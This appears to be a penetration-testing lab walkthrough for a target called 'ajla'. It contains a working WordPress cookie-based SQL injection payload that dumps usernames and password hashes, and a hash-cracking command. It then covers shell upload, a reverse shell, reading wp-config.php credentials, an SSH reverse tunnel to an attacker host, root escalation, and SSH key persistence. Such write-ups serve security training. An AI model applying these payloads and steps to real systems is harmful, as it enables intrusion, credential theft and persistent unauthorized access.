 1. Get admin username and hash using SQLi (EDB-45411)

```
curl -i -s -k -X $'GET' \
    -H $'Host: sandbox.local' \
    -b $'wp_sap=[\"1650149780\')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,\':\',user_pass) from wp_users),11#\"]' \
    $'http://sandbox.local/'
```

```
GET / HTTP/1.1
Host: sandbox.local
Cookie: wp_sap=["1650149780')) OR 1=1 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,(SELECT concat(user_login,':',user_pass) from wp_users),11#"]
```   
2. Crack hash using John the Ripper (JtR)
   
``` 
john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
```
   
3. Login to Wordpress dashboard and upload a shell using plugin
4. Establish a reverse shell on port 443
5. Read wp-config.php file to get username and password for wordpress database (10.5.5.11 - zora)

``` 
cat wp-config.php
```

> [!note] 
>  wp user doesn't have enough privilege to use [[udf]]

6. Generate an ssh key-pair (on ajla)
   
``` 
ssh-keygen
```
   
7. Add ajla's public key to Kali
   
```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3Nz....IQv www-data@ajla
```   

8. Set up a remote port forward from ajla to expose port 22 and port 3306 of zora to Kali. Use port 1122 of Kali to point to port 22 of zora, and use 13306 of Kali to point to port 3306 of 

 ``` 
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@KALI_IP
```

9. Verify (on Kali) if port 1122 and 13306 is already opened
   
``` 
sudo netstat -tulpn
```


 
Post-exploitation
1. Compile exploit (EDB-45010)
2. Transfer compiled exploit and run on target. You should get root access if done correctly.
3. Escalate reverse shell to SSH by adding your public key to /root/.ssh/authorized_keys
4. Read /root/proof.txt
5. Read ~/.bash_history. You should get a mysql root access to zora (10.5.5.11)

Check zora's [[10.5.5.11 - zora/4. Report/walkthrough]] for pivot